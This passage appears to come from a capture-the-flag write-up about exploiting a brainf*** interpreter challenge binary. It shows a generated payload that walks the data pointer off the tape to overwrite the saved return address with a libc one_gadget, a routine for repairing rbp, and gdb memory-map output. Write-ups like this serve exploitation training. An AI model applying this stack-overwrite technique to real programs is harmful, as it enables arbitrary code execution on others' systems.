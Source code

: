 ## Writing the Exploit

Firstly, modifying the value in rbp+0x8 is relatively simple. We need to bring the data pointer up to the lowest byte of the address, which can be accomplished by moving the pointer right the appropriate number of bytes, in this case, 0x130 + 8. Now, while brainf*** does not really provide a sophisticated mechanism for addition or subtraction, it does give us increments and decrements that can be repeated for the same effect on single bytes. For reference, example values for our addresses are:
```
__libc_start_main+243 is at 0x7ffff7ded0b3
The onegadget is at 0x7ffff7eace79
```

Since the last byte of our libc addresses will always be the same (it is originally __libc_start_main+243, ending in b3, and we want a onegadget that ends in 79), we can simply decrement the byte 58 (0x3a) times. The next two bytes are not constant, so it is possible that we addition or subtraction could result in carry-overs affecting other bytes. Accounting for this would have been a headache, and the differences in these bytes is relatively small, so I decided to carry on with single-byte increment/decrements and take the small risk of failure on any given execution. The python script to generate the brainf*** code to do this is here (Note: the '.'s don't accomplish anything since I can't see output on the server, but I found them useful when debugging my payloads. I would recommend a breakpoint at main+845, and a check of the contents at rbp+rax*1-0x130 to gauge where your data pointer is pointing and what value this area of the stack currently contains):
```
bf_payload = '>' * (0x130 + 0x8) + '.' + '-' * 58  + '>' + '-' * 0x2 + '>' + '+' * 12
```
Next, I had to fix the value in rbp. The esoland wiki provides an example of moving values between cells that worked out well; as written, the script zeroes out the cell that it is copying from, so having an extra libc address in rbp+0x10 was very useful. The explanation of that script is here:
```
Code:   Pseudo code:
>>      Move the pointer to cell2
[-]     Set cell2 to 0 
<<      Move the pointer back to cell0
[       While cell0 is not 0
  -       Subtract 1 from cell0
  >>      Move the pointer to cell2
  +       Add 1 to cell2
  <<      Move the pointer back to cell0
]       End while
```
In an example run, the contents of rbp+0x10 were equal to 0x00007ffff7ffc620. After looking at vmmap on the same run, it looks like 0x00007ffff7ff**d**620 would be in writable memory, so if I just increment the second byte up 0x10 times after moving it to rbp, I should have the stack set up for a successful exploit.
```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /home/ubuntu/Downloads/boring-flag-checker
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /home/ubuntu/Downloads/boring-flag-checker
0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /home/ubuntu/Downloads/boring-flag-checker
0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /home/ubuntu/Downloads/boring-flag-checker
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /home/ubuntu/Downloads/boring-flag-checker
0x00007ffff7dc6000 0x00007ffff7deb000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7deb000 0x00007ffff7f63000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f63000 0x00007ffff7fad000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fad000 0x00007ffff7fae000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fae000 0x00007ffff7fb1000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fb1000 0x00007ffff7fb4000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fb4000 0x00007ffff7fba000 0x0000000000000000 rw- 
```